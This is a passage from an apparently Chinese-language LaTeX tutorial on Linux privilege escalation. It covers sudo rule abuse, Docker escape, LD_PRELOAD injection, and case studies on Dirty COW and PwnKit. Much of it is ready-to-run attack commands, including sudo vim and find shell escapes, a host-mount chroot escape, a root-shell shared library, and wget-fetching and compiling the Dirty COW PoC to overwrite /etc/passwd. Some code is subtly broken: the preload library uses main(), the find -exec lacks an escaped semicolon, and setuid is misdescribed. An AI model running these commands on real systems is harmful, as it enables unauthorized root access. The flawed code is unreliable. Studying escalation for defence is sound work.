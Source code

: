 \section{配置文件误配利用}
sudo 权限滥用常见于规则宽松。sudo -l 枚举可用命令，如 (root) NOPASSWD: /usr/bin/vim，若可见则 sudo vim -c '!/bin/sh' 逃逸：-c 执行 vim 命令，!/bin/sh 弹出 root shell。\par
Wildcard 注入利用 sudoedit * 规则，编辑任意文件获 root 写权限。Cron 任务覆盖则替换可写 root 脚本，如 /etc/cron.hourly/myscript。\par
\section{服务与进程滥用}
Docker 逃逸利用容器挂载。docker run -v /:/mnt --rm -it alpine chroot /mnt sh 将宿主机 / 挂载至容器 /mnt，chroot 切换根目录获宿主机 shell。这个命令解读：-v /:/mnt 绑定挂载，alpine 是轻量镜像，chroot /mnt sh 以 /mnt 为新根启动 sh。\par
systemd 服务劫持针对可写服务文件，Polkit/PKExec 复用 PwnKit。\par
\section{其他高级技术}
LD\_{}PRELOAD 注入劫持库加载。编写 exploit.c：echo 'int main()\{{}setuid(0);system("/bin/sh");\}{}' > exploit.c，其中 setuid(0) 降为 root，system("/bin/sh") 执行 shell。然后 gcc -shared -fPIC -o exploit.so exploit.c 编译为共享库，LD\_{}PRELOAD=./exploit.so SUDO\_{}COMMAND=whoami sudo whoami 预加载库，覆盖 whoami 前运行 payload 获 root。\par
PATH 劫持置恶意二进制于 PATH 前，NFS/Capabilities 滥用 no\_{}root\_{}squash 或 cap\_{}setuid。\par
\chapter{实战案例分析}
实战案例一：Dirty COW 在 Ubuntu 16.04 上。搭建环境用 VirtualBox 安装 Ubuntu 16.04，获取低权限 shell 后枚举 uname -a 确认内核 4.4。下载 PoC：wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c，gcc -pthread dirtyc0w.c -o dirtyc0w，./dirtyc0w ./password passwd 覆盖 /etc/passwd 添加 root 用户，su 新用户获 shell。\par
案例二：Sudo 规则滥用。sudo -l 显示 (ALL) NOPASSWD: /usr/bin/find，执行 find . -exec /bin/sh ; -quit 利用 exec 参数逃逸。\par
案例三：Ubuntu 22.04 路径。枚举 LinPEAS 发现 pkexec CVE-2021-4034，直接编译 PwnKit PoC 提权。\par
